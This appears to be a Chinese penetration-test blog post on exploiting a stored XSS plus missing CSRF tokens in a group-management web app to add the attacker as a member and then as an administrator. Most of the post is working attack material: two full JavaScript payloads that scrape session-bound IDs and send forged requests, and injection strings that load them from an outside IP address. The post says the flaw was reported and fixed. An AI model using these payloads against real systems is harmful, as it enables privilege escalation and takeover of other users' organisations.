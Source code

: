 +++
title = "记一次渗透测试中利用存储型XSS添加用户"
topics = ["Pentest"]
tags = ["xss"]
description = "渗透测试中遇到了一个存储型的XSS，但是有httponly，所以第一次尝试通过写js来攻击目标从而添加用户。"
date = "2018-11-14T10:36:38+08:00"
draft = false
+++

### 0x00 简单查看
拿到目标后简单看了下，是一个类似员工管理的东西，用户可以创建group，其他用户可以搜索这个group然后申请加入

每个账号都可以注册组织，然后让别人加入，加入的用户有创建者、管理员、默认成员3个角色，管理员拥有的权限就比较大了，可以查看通讯录、添加成员、删除成员等等

### 0x01 申请加入组织流程分析
走了一遍流程，注册了两个账号，一个是reber，一个是yxk

在加入某组织时会让填验证信息，组织收到申请后同意然后把用户添加到某个分组然后确定

流程大概分4步，用户申请加入group、管理员点击同意、管理员关联用户到分组或成员、确定同意用户的申请

* 用户reber搜索组织，然后提交验证消息
![80](/img/post/20181114-110536.png)

* 用户yxk在消息列表同意reber的申请
![80](/img/post/20181114-110838.png)

* yxk给reber分组，点击下一步

* 最后一步写入备注信息，点击同意按钮最终同意用户加入
![70](/img/post/20181114-111139.png)



### 0x02 请求链接分析
经过对上面流程的抓包分析测试，涉及到的有用请求有3个：管理员点击同意链接时的请求、关联到分组或成员的请求、确定同意的请求

* 用户申请加入某group时发送的数据包如下：

```
API：/a/cms/org/applyorg
POST：verification=11111&orgId=247173
```

* group管理员同意用户申请时链接如下：

```
API：/a/cms/apply/handle-accept?id=6de027c0-9a4f-490e-a5e2-d1c76cd34a70&oid=247178&name=1760048****
```
这里链接里有一个id，经过抓包发现可以通过/a/cms/apply/applymsg这个接口直接得到同意申请时的链接

* 将申请用户关联到分组或成员涉及到如下数据包：

```
API：/a/cms/apply/do.handle
POST：ID=80b49e8f-4e8c-450f-8bf4-eb809271e779&OID=247178&GID=608863&MID=0&Agree=true&Reason=111
```

可以看到，上面的请求链接中都没有token，存在CSRF，就猜想能不能构造上述请求从而通过XSS和CSRF来做一些事情

### 0x03 构造直接添加用户到group的js
由于cookie设置了httponly，不能获取到完整的cookie，所以这里尝试写js代码，实现将用户直接加入group的功能

看了上面的请求包分析后发现，如果要构造数据包实现我们的想法的话需要有：ID、OID、GID这3个id

分析后发现在/a/cms/apply/applymsg请求的返回包中有同意的链接，链接中有ID

分析后发现在/a/cms/group/treeNode请求的返回包中有OID和GID

于是用于XSS的1.js内容构造如下：

```
//因为这里要把ajax的返回值return到函数中，需要是同步请求，所以async要设为false

function get_agree_url(){//得到管理员同意用户申请的链接
    var agree_url;
    var href;
    $.ajax({
        type: 'get',
        url: '/a/cms/apply/applymsg',
        async: false,
        success: function(data){
            $(data).find('#accept').each(function(index,element){
                href = $(this).attr('href');
                if (/id=.*?name=1760048****/.test(href)){
                    agree_url = href;
                }
            });
        }
    });
    return agree_url;
}

function get_oid_gid(){//得到oid和gid
    var oid;
    $.ajax({
        type: 'post',
        url: '/a/cms/group/treeNode',
        dataType: 'json',
        async: false,
        data: 'parentId=0',
        success: function(data){
            oid = data[0]['dataObject']['orgId'];
            gid = data[0]['dataObject']['topGroupId'];
        }
    });
    return {
        'oid':oid,
        'gid':gid
    };
}

function attack(){
    var agree_url = get_agree_url();
    var id = /id=(.*?)&/.exec(agree_url)[1];
    var oid_gid = get_oid_gid();
    var oid = oid_gid['oid'];
    var gid = oid_gid['gid'];

    $.get(agree_url);//同意用户加入group

    var step2_url = '/a/cms/apply/handle-accept2?ID='+id+'&OID='+oid+'&Name=176004****'+'&GID='+gid+'&MID=0';
    $.get(step2_url);//关联到分组或成员

    $.post('/a/cms/apply/do.handle',{ID:id,OID:oid,GID:gid,MID:0,Agree:true,Reason:'111'});//最终确认同意，设置备注
}

attack();
```

### 0x04 进行XSS攻击添加用户
用户reber尝试加入yxk的组织并提交恶意代码：```test<script src=//114.115.123.123/wyb/1.js></script>```
![80](/img/post/20181114-121432.png)

当用户yxk浏览用户申请列表页面时触发XSS
![80](/img/post/20181114-121938.png)

回到reber用户，可以看到已经加入了yxk的组织，可以进行一些操作了
![80](/img/post/20181114-122147.png)

### 0x05 更进一步，添加为管理员
刚开始分析发现通过上面的过程先添加用户，然后再添加用户为管理员，比较麻烦

后续发现其实不用这么麻烦，直接用另外一个接口发送ajax请求就能直接添加管理员用户

添加管理员的2.js如下：

```
function get_gid(){
    $.ajax({
        type: 'post',
        url: '/a/cms/group/treeNode',
        dataType: 'json',
        async: false,
        data: 'parentId=0',
        success: function(data){
            gid = data[0]['dataObject']['topGroupId'];
        }
    });
    return gid;
}

var gid = get_gid();

$.post('/a/cms/member/do.save',{memberId: 0,userId: '',mobile: '176004****',name: 'aaa',pinyin: 'aaa',groupId: 608863,group: '默认分组',roleId: 2,duty: '',sex: 0,sort: '10000','TEL;CELL': '','TEL;WORK': '',EMAIL: ''});
```

提交验证信息为：```test<script src=//114.115.123.123/wyb/2.js></script>```

当yxk访问请求的list页面时即可直接添加新用户aaa到group并且是管理员账户： 
![80](/img/post/20181114-123006.png)

好了，打完收工！

<br/>
PS：漏洞已提交，并早在3个月前修复
